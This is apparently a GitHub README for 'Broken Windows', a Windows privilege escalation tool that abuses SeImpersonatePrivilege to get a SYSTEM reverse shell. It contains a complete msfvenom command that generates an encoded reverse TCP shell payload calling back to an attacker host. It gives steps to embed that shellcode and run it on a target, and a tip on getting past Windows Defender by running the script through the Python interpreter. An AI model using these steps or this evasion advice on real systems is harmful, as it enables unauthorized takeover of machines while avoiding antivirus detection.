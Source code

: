 # Broken-Windows

## What is Broken Windows?

It's a privilege escalation tool for Windows. It leverages the access token of the user who runs it to eventually pop a reverse shell as SYSTEM. The user's access token **must** have the SeImpersonatePrivilege in order for Broken Windows to work. 

It can be run through the Python interpreter if it's available on your target system, or it can be run as a standalone executable.

## How can I convert the Broken Windows.py file to an executable?

Just follow these steps.

```
pip install pyinstaller
```
```
pyinstaller --onefile --console "/path/to/Broken Windows.py"
```

```Broken Windows.exe``` will be in the ```dist``` folder created by pyinstaller.

## How do I use it?

Generate a reverse shell with msfvenom. Remember to remove x64 from the command if your target system is 32 bit. If msfvenom fails to encode your reverse shell due to one of the bad bytes, run the command again.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=MACHINE_IP LPORT=PORT -f python -b "\x00,\xFF,\x0A,\x0D" -e x86/shikata_ga_nai -n 32
```

Copy the shellcode outputted by msfvenom and paste it into the ```BrokenWindows.py``` file, in the ```main``` function.

Then, simply execute ```Broken Windows.py``` or ```Broken Windows.exe``` on your target system:

![CMD](https://user-images.githubusercontent.com/16895391/129423983-a96c33b5-e0d9-458b-abee-128fb2ff0c5b.PNG)

![PYTHON](https://user-images.githubusercontent.com/16895391/129424058-05a8ed5d-4d8d-4e3b-9bac-c5ef72ffe6c9.PNG)

You (hopefully!) will receive a reverse shell as SYSTEM:

![SHELL](https://user-images.githubusercontent.com/16895391/129421207-727ed0e5-8175-4fb7-aa0a-0c1b3a77741c.PNG)

## Tips

I have noticed that Windows Defender (and possibly other AVs) **do not** detect any threats if you use the python interpreter to run Broken Windows instead of the executable. If you use the executable, most AVs runtime analysis will detect the reverse shell.
